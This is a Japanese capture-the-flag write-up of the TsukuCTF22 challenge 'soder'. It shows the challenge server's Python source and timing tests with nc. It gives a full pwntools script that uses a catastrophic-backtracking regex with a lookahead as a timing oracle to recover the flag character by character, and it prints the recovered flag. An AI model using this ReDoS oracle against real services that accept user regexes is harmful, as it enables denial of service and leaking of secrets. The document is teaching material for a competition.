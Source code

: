 ```yaml
---
title: soder
description: ReDoSの逆問題
author: Satoki
genre: Misc
solver: 16
point: 498
---
```


# soder

## 問題文

flag の validator を作ってもらったのですが、同じ応答しか返しません(´;ω;｀)  
`※フラグの形式はTsukuCTF22{[0-9a-z_]+}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。`  
`nc 133.130.103.51 31417`

## 難易度

**medium**

## 作問にあたって

Web の leaks4b の作問中に非想定解のオラクルとして思いついたものを問題にしました(実は作問時に調べたら、先に思いついていた方がいてしょんぼりしていました)。  
ReDoS 問題としては、脆弱なパターンに任意の入力を渡す場合が多いですが、逆を作ってみました(ReDoS checker で一発なため)。  
爆発するバックトラックを発生させるパターンをうまく作成すれば良いです。

## 解法

ソースと接続先が与えられる。  
ソースを見ると以下のようであった。

```python
#!/usr/bin/env python3
import os
import re
from timeout_decorator import timeout

FLAG = os.getenv("FLAG", "TsukuCTF22{dummy_flag}")

@timeout(5)
def flag_validator(pattern):
    re.match(pattern, FLAG)

def yakitori():
    pattern = input("Pattern: ")
    print("I check your pattern.")
    try:
        # This function will be timed out in 5 seconds.
        flag_validator(pattern)
    except:
        pass
    print("Probably valid flag!")

yakitori()
```

パターンをユーザから受け取り、`re.match`をフラグに行い終了している。  
`re.match`の結果を利用していないので、別の手法でフラグを読み取る必要がある。  
ここで、正規表現のパターンを入力から受け取っているため ReDoS が行えることがわかる。  
よく知られている脆弱なパターン`^(([a-zA-Z0-9])+)+$`をフラグ形式に合う形で加工した`^((([0-9a-z_CTF{])+)+)+$`を投げてみる。

```bash
$ time echo 'Test' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m0.687s
user    0m0.006s
sys     0m0.001s
$ time echo '^((([0-9a-z_CTF{])+)+)+$' | nc 133.130.103.51 31417
Pattern: I check your pattern.
Probably valid flag!

real    0m5.562s
user    0m0.005s
sys     0m0.002s
```

応答時間に差があることがわかる。  
つまりこの応答時間からフラグの一致を読み取れる。  
`^(?=フラグ文字列)((([0-9a-z_CTF{])+)+)+$`のように肯定先読みを使って、一致した場合にのみ応答が遅れるペイロードを構成してやればよい。  
以下の wftf.py を用いる。

```python
from pwn import *

FLAG = "TsukuCTF22{"

while True:
    for c in "0123456789abcdefghijklmnopqrstuvwxyz_":
        io = remote("133.130.103.51", "31417", level="error")
        io.recvuntil(b"Pattern: ")
        #print(c) # Debug
        io.sendline(f"^(?={FLAG}{c})((([0-9a-z_CTF{{])+)+)+$".encode())
        response = io.recvrepeat(4.5).decode()
        if not "Probably valid flag!" in response:
            FLAG += c
            print(FLAG)
            io.close()
            break
        io.close()
    else:
        FLAG += "}"
        print(FLAG)
        break
```

実行する

```bash
$ python wftf.py
TsukuCTF22{4
TsukuCTF22{4_
TsukuCTF22{4_w
TsukuCTF22{4_w4
TsukuCTF22{4_w47
TsukuCTF22{4_w47c
TsukuCTF22{4_w47ch
TsukuCTF22{4_w47ch3
TsukuCTF22{4_w47ch3d
TsukuCTF22{4_w47ch3d_
TsukuCTF22{4_w47ch3d_p
TsukuCTF22{4_w47ch3d_p0
TsukuCTF22{4_w47ch3d_p07
TsukuCTF22{4_w47ch3d_p07_
TsukuCTF22{4_w47ch3d_p07_n
TsukuCTF22{4_w47ch3d_p07_n3
TsukuCTF22{4_w47ch3d_p07_n3v
TsukuCTF22{4_w47ch3d_p07_n3v3
TsukuCTF22{4_w47ch3d_p07_n3v3r
TsukuCTF22{4_w47ch3d_p07_n3v3r_
TsukuCTF22{4_w47ch3d_p07_n3v3r_b
TsukuCTF22{4_w47ch3d_p07_n3v3r_b0
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5
TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}
```

flag が得られた。

## TsukuCTF22{4_w47ch3d_p07_n3v3r_b01l5}
